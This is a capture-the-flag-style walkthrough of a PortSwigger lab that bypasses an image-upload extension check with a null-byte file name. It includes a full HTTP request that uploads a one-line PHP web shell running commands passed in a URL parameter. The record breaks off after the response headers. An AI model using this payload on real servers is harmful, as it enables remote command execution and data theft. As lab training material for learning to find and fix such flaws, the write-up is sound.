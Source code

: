 Lab URL: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension

**Objective**

Bypass the file extension blacklist to upload a PHP webshell, and use the to exfiltrate the content of the `/home/carlos/secret` file.

**Credentials**
```
wiener:peter
```

**Solution**

In this lab, we have the file upload functionality in which we can upload an avatar image from our My Account page. We can upload image files that have `PNG` or `JPG` extensions if we try to upload any files other than this they throw the following error message.

```
Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.
```

They are checking if the file extension is either `.png` or `.jpg`, if so they allow it otherwise show us the above error message. We can upload php webshell code with the filename `exploit.php.jpg` but they will not execute it they interpret it as an image file.

Knowing that the application is checking only for file extension we can try uploading the php webshell with the filename that has a Null byte in it so that they will terminate other processing after it i.e. `exploit.php%00.jpg`. When we upload this file they accept it and we also see an interesting message in its response.

```
POST /my-account/avatar HTTP/1.1
Host: 0ad90038033d46d8819c482600d8005f.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAo8vATWUNXNMvMhB
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Cookie: session=eAfIPJECPfvaoUFvXqUvytzbU5Ce0Iup
Content-Length: 451

------WebKitFormBoundaryAo8vATWUNXNMvMhB
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.png"
Content-Type: application/x-php

<?php system($_GET["cmd"]);?>

------WebKitFormBoundaryAo8vATWUNXNMvMhB
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryAo8vATWUNXNMvMhB
Content-Disposition: form-data; name="csrf"

mAfknBizV9vvO47On9cdhgc1lKQQeZWv
------WebKitFormBoundaryAo8vATWUNXNMvMhB--

...

HTTP/1.1 200 OK
Date: Wed, 07 Jun 2023 13:24:50 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 132

```